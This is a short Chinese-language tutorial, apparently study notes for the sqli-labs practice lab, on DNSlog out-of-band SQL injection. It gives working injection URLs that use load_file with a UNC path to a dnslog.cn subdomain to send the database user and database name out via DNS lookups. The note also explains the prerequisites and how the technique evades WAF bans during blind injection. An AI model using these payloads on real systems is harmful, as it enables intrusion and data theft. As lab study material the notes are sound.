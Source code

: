 # DNSlog

### DNSlog条件

⭐ 数据库root权限

⭐ 数据库可读写权限，secure\_file\_priv值为空

⭐ windows系统

### 注入语句

利用DNS解析服务

<http://www.dnslog.cn/>

```sql
# 查询当前用户名
http://192.168.157.129/sql-labs/Less-1/?id=1' 
and (select load_file(concat('\\\\',(select hex(user())),'.682y4b.dnslog.cn/abc'))) --+

# 查看当前数据库名
http://192.168.157.129/sql-labs/Less-1/?id=1' 
and (select load_file(concat('\\\\',(select database()),'.682y4b.dnslog.cn/abc'))) --+

```

> '\\'在sql语句中要转义,"\\\\\\\\"转义后变成"\\\\"

> 因为不能解析含有特殊字符的域名，因此在查询用户名时最好进行hex编码

### 原理

DNS解析会把过程记录在dnslog日志中

上例子中路径`database().682y4b.dnslog.cn`需要域名解析，因此当服务器去`dnslog.cn`解析域名时候，就会在dnslog日志中留下`database()` 数据

### 适用场景

当要进行盲注时，大量的爆破可能会导致WAF封禁IP，因此可以通过DNSlog进行回显，但是条件比较苛刻一般很少遇见

